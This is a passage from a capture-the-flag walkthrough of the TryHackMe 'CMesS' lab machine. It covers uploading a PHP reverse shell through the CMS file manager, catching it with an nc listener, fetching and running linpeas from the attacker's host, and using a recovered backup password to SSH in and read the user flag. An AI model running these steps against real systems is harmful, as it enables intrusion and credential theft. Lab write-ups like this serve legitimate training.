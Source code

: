 ## Reverse Shell

Now we can upload a reverse shell. Go to `Content > File Manager` and add a file named `shell.php` in `assets` folder. I'm gonna use a php reverse shell which you can find [here](https://github.com/pentestmonkey/php-reverse-shell). Copy the reverse shell in the shell.php and change the IP to yours and change the port to which you want to get the shell on.

Now save the file and start a listener (`rlwrap nc -lvnp 4444`). Then call the shell from `http://cmess.thm/assets/shell.php`. Now we have a shell as `www-data`. The first thing I did was spawning a TTY shell using a python one-liner:

~~~
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cmess:/$ 
~~~

## www-data -> andre

If you list `/home`, you'll see that `andre` is a user on this machine. Let's switch to this user. To make things faster, I uplaoded `linpeas` to the target machine. First start a python server (`python3 -m http.server 80`) where the linpeas is located and then download it on the target machine using `wget`. Mark it as executable and run it:

~~~
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

Linpeas found us `.password.bak` which is a backup file for andre's password located in `/opt`:

~~~
www-data@cmess:/$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
~~~

## User flag

Now we can connect to the machine via ssh with `andre:UQfsdCB7aAP6` and read the user flag:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/CMesS]
└─$ ssh andre@$IP
andre@10.10.30.110's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Mon Nov  8 07:08:23 2021 from 10.9.1.171
andre@cmess:~$ ls
backup  user.txt
andre@cmess:~$ cat user.txt 
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
~~~
